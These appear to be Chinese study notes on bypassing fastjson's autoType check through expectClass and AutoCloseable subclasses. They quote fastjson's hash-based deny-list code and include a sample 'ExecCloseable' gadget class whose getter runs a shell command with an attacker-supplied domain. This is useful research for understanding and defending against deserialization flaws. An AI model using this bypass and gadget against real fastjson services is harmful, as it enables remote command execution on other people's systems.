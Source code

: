 <font style="color:rgb(22, 18, 9);">Object、Serializable、Cloneable、Closeable、EventListener、Iterable、Collection这几个类不能作为expectClass期望类。	</font>

<font style="color:rgb(22, 18, 9);">下面部分</font>

```plain
if (!internalWhite && (this.autoTypeSupport || expectClassFlag)) {
    hash = h3;

    for(mask = 3; mask < className.length(); ++mask) {
        hash ^= (long)className.charAt(mask);
        hash *= 1099511628211L;
        if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
            clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, true);
            if (clazz != null) {
                return clazz;
            }
        }

        if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null && Arrays.binarySearch(this.acceptHashCodes, fullHash) < 0) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}
```

!internalWhite && (this.autoTypeSupport || expectClassFlag

不在白名单 开启autotype或者在期望类

expectClass是自己传的

```java
if (!autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        if (clazz != null) {
            TypeUtils.addMapping(typeName, clazz);
        }
```

后面会加载clazz

寻找两个类调用了checkAutotype 并且<font style="color:rgb(22, 18, 9);">exceptClass不为空。</font>

![](https://cdn.nlark.com/yuque/0/2025/png/36112066/1747649527465-6fe45c4e-f2e1-411e-8f1f-fa1271a017ca.png)

<font style="color:rgb(22, 18, 9);">再来看JavaBeanDeserializer，在fastjson中对大部分类都指定了特定的deserializer，而AutoCloseable类没有，通过继承/实现AutoCloseable的类可以绕过autotype反序列化。场景如下：</font>

| ```java package org.chabug.fastjson.exploit;  import java.io.Closeable; import java.io.IOException;  public class ExecCloseable implements Closeable {     private String domain;      public ExecCloseable() {     }      public ExecCloseable(String domain) {         this.domain = domain;     }      public String getDomain() {         try {             Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});         } catch (IOException e) {             e.printStackTrace();         }         return domain;     }      public void setDomain(String domain) {         this.domain = domain;     }      @Override     public void close() throws IOException {      } } ```  |
| --- |


高版本
